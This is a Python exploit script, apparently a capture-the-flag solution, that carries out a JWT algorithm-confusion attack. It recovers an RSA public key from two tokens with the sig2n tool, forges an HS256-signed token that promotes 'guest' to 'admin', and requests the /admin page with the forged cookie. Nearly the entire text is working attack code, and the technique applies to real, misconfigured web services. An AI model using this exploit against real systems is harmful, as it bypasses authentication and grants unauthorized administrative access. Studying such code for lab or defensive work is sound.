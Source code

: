 ```python
        print('getting RSA public key from the two tokens by running sig2n (may take a while)...')
        # can be failed if the both k_i are not coprime integers each other.
        output = subprocess.check_output(f'docker run --rm -it portswigger/sig2n {tokens[0]} {tokens[1]}', shell=True)
        print(output)
        base64_pub_key = re.findall(r'Base64 encoded x509 key: (.+)\r', output.decode())[0]
        with open('pub.crt', 'wb') as f:
            f.write(base64.b64decode(base64_pub_key))

        # forging a token (guest -> admin, RS256 -> HS256)
        print('forging the token (guest -> admin, RS256 -> HS256)...')
        token = tokens[0]
        with open('pub.crt', 'rb') as f:
            key = f.read()
        algorithms = ['RS256']
        payload = jwt.decode(token, key, algorithms=algorithms)


        # token forgery - construct header
        header = {"alg": "HS256", "typ": "JWT"}
        json_header = json.dumps(header, separators=(",", ":"), cls=None).encode()

        # # token forgery - construct payload
        payload['username'] = 'admin'
        for time_claim in ["exp", "iat", "nbf"]:
        # token forgery - Convert datetime to a intDate value in known time-format claims
            if isinstance(payload.get(time_claim), datetime):
                payload[time_claim] = timegm(payload[time_claim].utctimetuple())
        json_payload = json.dumps(payload, separators=(",", ":"), cls=None).encode("utf-8")

        segments = []
        segments.append(base64.urlsafe_b64encode(json_header).replace(b'=', b''))
        segments.append(base64.urlsafe_b64encode(json_payload).replace(b'=', b''))

        # # token forgery - construct signature
        signing_input = b".".join(segments)
        signature = hmac.new(key, signing_input, hashlib.sha256).digest()
        segments.append(base64.urlsafe_b64encode(signature).replace(b'=', b''))

        forged_token = b'.'.join(segments).decode()
        break
    except Exception as e:
        print('failed. running again...', e)
        print(traceback.format_exc())

print('forged token..', forged_token)

# request to GET /admin with forged JWT token
cookies = {'token': forged_token}
res = requests.get(f'http://{HOST}/admin', cookies=cookies)
print(res.text)
```

